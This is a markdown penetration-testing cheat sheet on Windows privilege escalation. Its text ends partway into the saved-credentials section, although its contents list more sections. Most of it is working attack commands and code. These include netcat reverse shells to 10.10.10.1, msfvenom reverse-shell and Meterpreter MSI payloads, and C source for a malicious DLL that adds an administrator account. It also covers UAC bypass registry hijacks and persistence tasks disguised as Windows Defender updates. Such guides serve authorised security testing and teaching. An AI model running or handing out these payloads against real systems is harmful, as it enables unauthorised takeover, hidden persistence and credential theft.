



# Windows Privilege Escalation

> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing
> **Tags:** `windows`, `privilege-escalation`, `post-exploitation`, `pentest`

---

## Table of Contents

1. [Initial Enumeration](#1-initial-enumeration)
2. [Token Impersonation](#2-token-impersonation)
3. [Unquoted Service Paths](#3-unquoted-service-paths)
4. [Weak Service Permissions](#4-weak-service-permissions)
5. [DLL Hijacking](#5-dll-hijacking)
6. [AlwaysInstallElevated](#6-alwaysinstallelevated)
7. [Scheduled Tasks](#7-scheduled-tasks)
8. [Registry Autoruns](#8-registry-autoruns)
9. [UAC Bypass](#9-uac-bypass)
10. [Saved Credentials](#10-saved-credentials)
11. [Potato Attacks](#11-potato-attacks)
12. [Pass-the-Hash for Local Admin](#12-pass-the-hash-for-local-admin)
13. [Group Policy Abuse](#13-group-policy-abuse)
14. [Automated Enumeration Tools](#14-automated-enumeration-tools)
15. [Full Cheat Sheet Table](#15-full-windows-privesc-cheat-sheet)
16. [Decision Tree](#16-privilege-escalation-decision-tree)

---

## 1. Initial Enumeration

> **Note:** Thorough enumeration is the foundation of every successful privilege escalation. Never skip this phase — the winning vector is almost always in the output of a basic command.

### 1.1 Current User Context

```cmd
REM Who are we and what are our privileges?
whoami
whoami /priv
whoami /groups
whoami /all
```

```powershell
# PowerShell equivalents
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[System.Security.Principal.WindowsIdentity]::GetCurrent().Groups
```

Key privileges to look for in `whoami /priv`:

| Privilege | Abuse Potential |
|-----------|----------------|
| `SeImpersonatePrivilege` | Potato attacks → SYSTEM |
| `SeAssignPrimaryTokenPrivilege` | Potato attacks → SYSTEM |
| `SeBackupPrivilege` | Read any file (SAM, NTDS.dit) |
| `SeRestorePrivilege` | Write any file |
| `SeTakeOwnershipPrivilege` | Take ownership of any object |
| `SeDebugPrivilege` | Inject into LSASS → dump creds |
| `SeLoadDriverPrivilege` | Load malicious kernel driver |
| `SeManageVolumePrivilege` | Arbitrary write to disk volumes |

### 1.2 Local Users and Groups

```cmd
REM List all local users
net user

REM Detailed info on a specific user
net user administrator
net user %username%

REM Who is in the local admins group?
net localgroup administrators

REM All local groups
net localgroup

REM Remote Desktop users (lateral movement potential)
net localgroup "Remote Desktop Users"
```

```powershell
# PowerShell — more detail
Get-LocalUser | Select-Object Name, Enabled, LastLogon, PasswordExpires
Get-LocalGroupMember -Group "Administrators"
Get-LocalGroup | ForEach-Object { Write-Host "[$($_.Name)]"; Get-LocalGroupMember $_.Name 2>$null }
```

### 1.3 Operating System and Patch Level

```cmd
REM Full system info including hotfixes and architecture
systeminfo

REM Extract just OS name and version
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

REM Installed hotfixes (patches)
wmic qfe list brief
wmic qfe list brief | findstr "KB"
```

```powershell
# PowerShell — cleaner output
Get-HotFix | Sort-Object InstalledOn -Descending | Select-Object -First 20
Get-ComputerInfo | Select-Object OsName, OsVersion, OsBuildNumber, OsArchitecture
[System.Environment]::OSVersion
```

> **Note:** Cross-reference the installed patches against **Windows Exploit Suggester** (wesng) or **Watson** to find unpatched kernel exploits (MS16-032, CVE-2019-1388, etc.).

### 1.4 Network Configuration

```cmd
REM Full network adapter info
ipconfig /all

REM Routing table — other subnets reachable?
route print

REM Active connections and listening ports
netstat -ano

REM Map PIDs to services
netstat -anob

REM ARP cache (who else is on the network?)
arp -a
```

```powershell
# PowerShell — active TCP connections with process names
Get-NetTCPConnection -State Listen | Sort-Object LocalPort |
    Select-Object LocalAddress, LocalPort, OwningProcess,
    @{N='ProcessName';E={(Get-Process -Id $_.OwningProcess -EA 0).Name}}
```

### 1.5 Running Services and Processes

```cmd
REM Services with associated executable paths
tasklist /svc

REM All running processes with full info
tasklist /v

REM Services and their state
sc query type= all state= all

REM Query a specific service
sc qc wuauserv
```

```powershell
# Find services running as SYSTEM or with elevated accounts
Get-WmiObject Win32_Service |
    Where-Object {$_.StartName -match 'LocalSystem|Administrator'} |
    Select-Object Name, StartName, PathName, State
```

### 1.6 Environment Variables

```cmd
REM All environment variables (cmd)
set

REM Specifically the PATH — writable dirs early in PATH = DLL hijack
echo %PATH%
```

```powershell
# PowerShell environment
$env:Path -split ';'
$env:USERPROFILE
$env:APPDATA
$env:TEMP
[System.Environment]::GetEnvironmentVariables()

# Check each PATH directory for write permissions
$env:Path -split ';' | ForEach-Object {
    if (Test-Path $_) {
        $acl = Get-Acl $_
        Write-Host "$_ -> $($acl.AccessToString)"
    }
}
```

### 1.7 Installed Software

```cmd
REM 64-bit software
wmic product get name,version,installdate

REM Registry-based (faster, more complete)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s | findstr "DisplayName DisplayVersion"
reg query HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall /s | findstr "DisplayName"
```

---

## 2. Token Impersonation

> **Warning:** Potato attacks require `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`. These are commonly held by IIS application pool identities, SQL Server service accounts, and any service running as `NT AUTHORITY\NETWORK SERVICE` or `NT AUTHORITY\LOCAL SERVICE`.

### 2.1 Checking for the Privilege

```cmd
whoami /priv | findstr /i "impersonate\|assignprimary"
```

If you see `SeImpersonatePrivilege   Impersonate a client after authentication   Enabled` — you can almost certainly get SYSTEM.

### 2.2 How Token Impersonation Works

Windows allows certain services to impersonate clients. When a high-privilege process (SYSTEM) connects to a named pipe or COM object that the attacker controls, the attacker can steal (impersonate) that SYSTEM token and spawn a new process with it.



### 2.3 PrintSpoofer (Windows 10 / Server 2019)

**PrintSpoofer** exploits the Windows Print Spooler's `SpoolSS` named pipe to coerce SYSTEM authentication.

```cmd
REM Interactive SYSTEM shell
PrintSpoofer.exe -i -c cmd

REM Run a specific command as SYSTEM
PrintSpoofer.exe -c "whoami > C:\Windows\Temp\whoami.txt"

REM Spawn a reverse shell
PrintSpoofer.exe -c "C:\Windows\Temp\nc.exe 10.10.10.1 4444 -e cmd.exe"
```

> **Note:** PrintSpoofer requires the Print Spooler service to be running (`sc query Spooler`). It is enabled by default on most Windows installations.

### 2.4 JuicyPotato (Windows 7 / Server 2008–2016)

JuicyPotato exploits DCOM/NTLM negotiation. You must choose a CLSID appropriate for the target OS.

```cmd
REM Basic usage
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}

REM Spawn reverse shell
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\shell.exe" -t * -c {4991D34B-80A1-4291-83B6-3328366B9097}

REM Common CLSIDs by OS:
REM Windows 7:          {4991D34B-80A1-4291-83B6-3328366B9097}
REM Server 2008 R2:     {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
REM Windows 8.1:        {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
REM Server 2012 R2:     {f7fd3fd6-9994-452d-8da7-9a8fd87aeef4}
REM Windows 10 (pre-1809): {F9119B15-2038-4FC6-A81B-7D5AB7BD5E63}
```

> **Warning:** JuicyPotato does **not** work on Windows 10 build 1809+ or Windows Server 2019. Use PrintSpoofer or RoguePotato instead.

### 2.5 RoguePotato (Server 2019+)

RoguePotato redirects the OXID resolver to an attacker-controlled machine, bypassing the restrictions that broke JuicyPotato.

```cmd
REM On attacker machine — set up socat redirect
socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.1:9999

REM On target — run RoguePotato
RoguePotato.exe -r 10.10.10.1 -e "C:\Windows\Temp\shell.exe" -l 9999
```

### 2.6 SweetPotato

SweetPotato is a combined implementation that tries multiple potato techniques automatically and includes EfsPotato for newer systems.

```cmd
SweetPotato.exe -a "whoami"
SweetPotato.exe -a "C:\Temp\shell.exe"
```

### 2.7 CLSID Selection Reference

```powershell
# Enumerate available DCOM CLSIDs on the target
Get-ChildItem "HKLM:\SOFTWARE\Classes\CLSID" |
    ForEach-Object {
        $appid = (Get-ItemProperty $_.PSPath -EA 0).AppID
        if ($appid) { "$($_.PSChildName) -> $appid" }
    } | Select-String "AppID"
```

---

## 3. Unquoted Service Paths

### 3.1 The Vulnerability

When a Windows service's executable path contains spaces and is **not** wrapped in quotes, Windows resolves the path ambiguously. For path `C:\Program Files\My App\service.exe`, Windows tries:

1. `C:\Program.exe`
2. `C:\Program Files\My.exe`
3. `C:\Program Files\My App\service.exe`

If an attacker can write to any of the earlier directories, they can plant a malicious executable.

### 3.2 Finding Unquoted Paths

```cmd
REM wmic method — find auto-start services with unquoted paths not in C:\Windows
wmic service get name,displayname,pathname,startmode ^
  | findstr /i "auto" ^
  | findstr /i /v "c:\windows\\" ^
  | findstr /i /v """
```

```powershell
# PowerShell — cleaner, includes more detail
Get-WmiObject -Class Win32_Service |
    Where-Object {
        $_.PathName -notmatch '"' -and
        $_.PathName -notmatch '^C:\\Windows' -and
        $_.PathName -match ' '
    } |
    Select-Object Name, StartMode, State, PathName

# Also check with PowerUp
. .\PowerUp.ps1
Get-UnquotedService
```

### 3.3 Verifying Write Permissions on the Ambiguous Path

```cmd
REM Check if we can write to the parent directory
icacls "C:\Program Files\My App"
accesschk.exe -dw "C:\Program Files" /accepteula
```

```powershell
# Check ACLs programmatically
$path = "C:\Program Files"
$acl = Get-Acl $path
$acl.Access | Where-Object {
    $_.FileSystemRights -match 'Write|FullControl' -and
    $_.IdentityReference -match 'Users|Everyone|Authenticated'
}
```

### 3.4 Exploitation

```cmd
REM 1. Create payload (example: add admin user)
msfvenom -p windows/x64/exec CMD="net user hacker P@ss123 /add && net localgroup administrators hacker /add" -f exe -o "C:\Program Files\My.exe"

REM 2. Copy to ambiguous path
copy shell.exe "C:\Program Files\My.exe"

REM 3. Restart the vulnerable service
sc stop "MyService"
sc start "MyService"

REM Alternative — if we can't restart, wait for reboot
shutdown /r /t 60  REM (only if we want to wait)
```

> **Warning:** Restarting a service may cause disruption. In real engagements, verify the impact with the client first. In CTFs, restart away.

---

## 4. Weak Service Permissions

### 4.1 Finding Writable Services

```cmd
REM Find services where Authenticated Users have write access
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv %username% * /accepteula

REM Check a specific service
accesschk.exe -ucqv vulnerable_service /accepteula
sc qc vulnerable_service
```

```powershell
# PowerShell equivalent using .NET
$services = Get-WmiObject Win32_Service
foreach ($svc in $services) {
    $sd = sc.exe sdshow $svc.Name 2>$null
    if ($sd -match 'AU|WD|BU') {  # AU=Authenticated Users, WD=World, BU=Built-in Users
        Write-Host "[WRITABLE] $($svc.Name): $sd"
    }
}
```

### 4.2 Service Permission Flags Reference

| Flag | Meaning |
|------|---------|
| `SERVICE_ALL_ACCESS` | Full control |
| `SERVICE_CHANGE_CONFIG` | Can change binPath — **exploitable** |
| `SERVICE_START` | Can start service |
| `SERVICE_STOP` | Can stop service |
| `SERVICE_QUERY_CONFIG` | Can query configuration |
| `GENERIC_WRITE` | Generic write — often includes `SERVICE_CHANGE_CONFIG` |

### 4.3 Exploiting Writable Service binPath

```cmd
REM Check current config
sc qc vulnerable_service

REM Method 1: Add a user
sc config vulnerable_service binPath= "net user hacker P@ss123! /add"
sc stop vulnerable_service
sc start vulnerable_service

REM Method 2: Add hacker to admins
sc config vulnerable_service binPath= "net localgroup administrators hacker /add"
sc stop vulnerable_service
sc start vulnerable_service

REM Method 3: Reverse shell
sc config vulnerable_service binPath= "C:\Windows\Temp\nc.exe 10.10.10.1 4444 -e cmd.exe"
sc stop vulnerable_service
sc start vulnerable_service

REM Restore original binPath afterward (clean up)
sc config vulnerable_service binPath= "C:\OriginalPath\service.exe"
```

> **Note:** The `sc config binPath=` syntax requires a **space after the equals sign** — this is intentional Windows syntax, not a typo.

---

## 5. DLL Hijacking

### 5.1 Windows DLL Search Order

When an application loads a DLL without a full path, Windows searches in this order (SafeDllSearchMode **enabled**, which is the default since XP SP2):

1. The directory from which the application loaded
2. The system directory (`C:\Windows\System32`)
3. The 16-bit system directory (`C:\Windows\System`)
4. The Windows directory (`C:\Windows`)
5. The current working directory
6. Directories in the `%PATH%` environment variable

> **Warning:** If SafeDllSearchMode is **disabled** (registry: `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\SafeDllSearchMode = 0`), the current directory moves to position 2, making CWD-based hijacking trivial.

### 5.2 Finding Missing DLLs with Procmon

1. Run **Process Monitor** (Sysinternals) on a test machine with the same software
2. Set filter: `Result is NAME NOT FOUND` AND `Path ends with .dll`
3. Look for DLLs loaded from writable directories
4. Note the process name and DLL name

```cmd
REM Also check KnownDLLs — these are NEVER hijackable
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs"
```

### 5.3 Finding Writable PATH Directories

```cmd
REM List PATH and check write perms
for %i in (%PATH:;= %) do @echo %i & icacls "%i" 2>nul | findstr /i "(W)\|(F)\|BUILTIN\|Users"
```

```powershell
$env:Path -split ';' | Where-Object { $_ -ne '' } | ForEach-Object {
    try {
        $null = [System.IO.File]::Create("$_\test_write_$((Get-Random)).tmp").Close()
        Remove-Item "$_\test_write_*.tmp" -EA 0
        Write-Host "[WRITABLE] $_" -ForegroundColor Red
    } catch {
        Write-Host "[read-only] $_" -ForegroundColor Green
    }
}
```

### 5.4 Crafting the Malicious DLL

```c
/* malicious_dll.c — minimal DLL payload */
#include <windows.h>
#include <stdlib.h>

void run_payload() {
    /* Add admin user */
    system("cmd.exe /c net user hacker P@ss123! /add");
    system("cmd.exe /c net localgroup administrators hacker /add");
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            run_payload();
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

```bash
# Compile on Linux with mingw-w64
x86_64-w64-mingw32-gcc -shared -o vuln.dll malicious_dll.c -lws2_32

# 32-bit target
i686-w64-mingw32-gcc -shared -o vuln.dll malicious_dll.c -lws2_32
```

### 5.5 DLL Proxy Hijacking

For services that expect legitimate DLL exports, you may need to **proxy** the original DLL while executing your payload:

```c
/* proxy_dll.c — forward exports to original DLL */
#include <windows.h>

/* Forward all exports to the real DLL */
#pragma comment(linker, "/export:OriginalFunction=C:\\Windows\\System32\\real.dll.OriginalFunction")

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    if (fdwReason == DLL_PROCESS_ATTACH) {
        /* Payload runs here */
        WinExec("cmd.exe /c whoami > C:\\Windows\\Temp\\out.txt", SW_HIDE);
    }
    return TRUE;
}
```

---

## 6. AlwaysInstallElevated

### 6.1 The Vulnerability

When both `HKLM` and `HKCU` registry keys for `AlwaysInstallElevated` are set to `1`, any `.msi` installer runs with **SYSTEM** privileges regardless of who launches it.

### 6.2 Checking the Registry

```cmd
REM Both must be 0x1 for the vulnerability to be exploitable
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```powershell
$hkcu = Get-ItemProperty "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated -EA 0
$hklm = Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated -EA 0

if ($hkcu.AlwaysInstallElevated -eq 1 -and $hklm.AlwaysInstallElevated -eq 1) {
    Write-Host "[VULNERABLE] AlwaysInstallElevated is enabled!" -ForegroundColor Red
} else {
    Write-Host "[safe] AlwaysInstallElevated not set"
}
```

### 6.3 Creating the Malicious MSI

```bash
# On Kali — reverse shell MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f msi -o malicious.msi

# Add local admin user
msfvenom -p windows/exec CMD="net user hacker P@ss123! /add && net localgroup administrators hacker /add" -f msi -o adduser.msi

# Meterpreter
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f msi -o meter.msi
```

### 6.4 Executing the MSI

```cmd
REM Silent install — no UI
msiexec /quiet /qn /i C:\Temp\malicious.msi

REM With logging for debugging
msiexec /quiet /qn /i C:\Temp\malicious.msi /l*v C:\Temp\install.log
```

> **Note:** PowerUp's `Write-UserAddMSI` can generate an MSI that adds a local admin user directly.

```powershell
. .\PowerUp.ps1
Write-UserAddMSI
# Generates UserAdd.msi in current directory
msiexec /quiet /qn /i UserAdd.msi
```

---

## 7. Scheduled Tasks

### 7.1 Enumerating Scheduled Tasks

```cmd
REM Full verbose listing
schtasks /query /fo LIST /v

REM Focus on interesting fields
schtasks /query /fo LIST /v | findstr /i "TaskName\|Run As User\|Task To Run\|Status\|Next Run\|Last Run"

REM CSV format for easier parsing
schtasks /query /fo CSV /v > C:\Temp\tasks.csv
```

```powershell
# High-privilege tasks (run as SYSTEM or highest level)
Get-ScheduledTask |
    Where-Object { $_.Principal.RunLevel -eq "Highest" -or $_.Principal.UserId -eq "SYSTEM" } |
    Select-Object TaskName, TaskPath,
        @{N='Action';E={$_.Actions.Execute}},
        @{N='UserId';E={$_.Principal.UserId}}

# Tasks running as current or interesting users
Get-ScheduledTask | ForEach-Object {
    $task = $_
    $task.Actions | Where-Object { $_ -is [Microsoft.Management.Infrastructure.CimInstance] } |
    ForEach-Object {
        [PSCustomObject]@{
            Name    = $task.TaskName
            Execute = $_.Execute
            Args    = $_.Arguments
            User    = $task.Principal.UserId
        }
    }
}
```

### 7.2 Finding Writable Task Executables

```cmd
REM Check permissions on task executables
schtasks /query /fo LIST /v | findstr "Task To Run" | findstr /i /v "system32\|syswow64" | findstr ".exe\|.bat\|.ps1"
```

```powershell
# Find scheduled task executables writable by current user
Get-ScheduledTask | ForEach-Object {
    $_.Actions | ForEach-Object {
        if ($_.Execute -and (Test-Path $_.Execute -EA 0)) {
            $acl = Get-Acl $_.Execute
            $writable = $acl.Access | Where-Object {
                $_.FileSystemRights -match 'Write|FullControl' -and
                $_.IdentityReference -match $env:USERNAME
            }
            if ($writable) {
                Write-Host "[WRITABLE TASK EXE] $($_.Execute)" -ForegroundColor Red
            }
        }
    }
}
```

### 7.3 Replacing a Task's Executable

```cmd
REM Backup the original
copy "C:\Vulnerable\task.exe" "C:\Temp\task.exe.bak"

REM Replace with payload
copy shell.exe "C:\Vulnerable\task.exe"

REM Force task to run (if we have permissions)
schtasks /run /tn "VulnerableTask"
```

### 7.4 Creating a Persistence Task (Post-Escalation)

```cmd
REM Create a task that runs a reverse shell on login
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\shell.exe" /sc onlogon /ru SYSTEM /f
```

```powershell
# PowerShell task creation
$action = New-ScheduledTaskAction -Execute "C:\Windows\Temp\shell.exe"
$trigger = New-ScheduledTaskTrigger -AtLogOn
$settings = New-ScheduledTaskSettingsSet -Hidden
Register-ScheduledTask -Action $action -Trigger $trigger -Settings $settings `
    -TaskName "WindowsDefenderUpdate" -RunLevel Highest -Force
```

---

## 8. Registry Autoruns

### 8.1 Enumerating Run Keys

```cmd
REM Machine-wide run keys (require admin to set, run for all users)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run

REM Per-user run keys (current user)
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

REM Services also run at startup — see section 4
```

```powershell
# PowerShell — all run keys at once
@(
    'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run',
    'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce',
    'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run',
    'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce'
) | ForEach-Object {
    Write-Host "`n[$_]"
    Get-ItemProperty $_ -EA 0 | Format-List
}
```

### 8.2 Finding Writable Autorun Executables

```cmd
REM Use accesschk to find writable autorun paths
accesschk.exe -wvu "C:\Program Files\AutorunApp\app.exe" /accepteula

REM Check the registry key itself for write permissions
accesschk.exe -uvwqk HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /accepteula
```

### 8.3 Exploiting Writable Autorun Paths

```cmd
REM Scenario: HKLM Run key points to C:\Tools\updater.exe which we can overwrite

REM 1. Verify write permission
icacls "C:\Tools\updater.exe"

REM 2. Replace with payload
copy /Y shell.exe "C:\Tools\updater.exe"

REM 3. Wait for reboot OR trigger as that user
shutdown /r /t 0
```

### 8.4 Writable Registry Key Exploitation

```cmd
REM If we can write to the HKLM Run key itself (rare but possible)
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Updater" /t REG_SZ /d "C:\Temp\shell.exe" /f
```

---

## 9. UAC Bypass

> **Warning:** UAC bypass techniques only apply when you are **already a local administrator** but running in a medium-integrity context. UAC bypass elevates from medium to **high** integrity — it does **not** give you SYSTEM by itself. You may need to combine with another technique for SYSTEM.

### 9.1 Checking UAC Configuration

```cmd
REM Check if UAC is enabled
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

REM Check UAC level (0=disabled, 1=always notify, 2=default, 5=notify only for app changes)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
```

| ConsentPromptBehaviorAdmin | Meaning |
|---------------------------|---------|
| 0 | No prompts — elevate silently |
| 1 | Prompt for credentials on secure desktop |
| 2 | Prompt for consent on secure desktop |
| 3 | Prompt for credentials |
| 4 | Prompt for consent |
| 5 | Prompt for consent for non-Windows binaries (default) |

### 9.2 fodhelper.exe Bypass (Windows 10)

`fodhelper.exe` is a Microsoft-signed binary with the **autoElevate** property set. It reads from `HKCU\Software\Classes\ms-settings` before launching — an attacker-controlled registry hive.

```powershell
# Method 1 — Launch cmd.exe
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
    -Name "DelegateExecute" -Value "" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"

# Method 2 — Launch reverse shell
$cmd = "C:\Windows\Temp\shell.exe"
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Value $cmd -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
    -Name "DelegateExecute" -Value "" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"

# Cleanup afterward
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

### 9.3 eventvwr.exe Registry Hijack

`eventvwr.exe` looks up `HKCU\Software\Classes\mscfile\shell\open\command` before launching the Event Viewer snap-in.

```powershell
$cmd = "cmd.exe"
New-Item -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Value $cmd -Force
Start-Process "C:\Windows\System32\eventvwr.exe"
Start-Sleep -Seconds 3
Remove-Item "HKCU:\Software\Classes\mscfile\" -Recurse -Force
```

### 9.4 UACME Framework

UACME (https://github.com/hfiref0x/UACME) is a comprehensive collection of UAC bypass techniques numbered by method.

```cmd
REM Method 23 — works on Windows 10 1607+
Akagi64.exe 23 C:\Temp\shell.exe

REM Method 33 — WSReset.exe technique
Akagi64.exe 33 C:\Temp\shell.exe

REM Method 41 — works on Windows 10 1903
Akagi64.exe 41 C:\Temp\shell.exe

REM List all methods
Akagi64.exe /?
```

### 9.5 Checking Current Integrity Level

```cmd
whoami /groups | findstr "Label"
```

| Label | Integrity Level |
|-------|----------------|
| `S-1-16-4096` | Low |
| `S-1-16-8192` | Medium (standard user, default) |
| `S-1-16-12288` | High (admin after UAC) |
| `S-1-16-16384` | System |

---

## 10. Saved Credentials

### 10.1 Windows Credential Manager

```cmd
REM List saved credentials
cmdkey /list

REM Use a saved credential to run a command as another user
runas /savedcred /user:DOMAIN\administrator cmd.exe
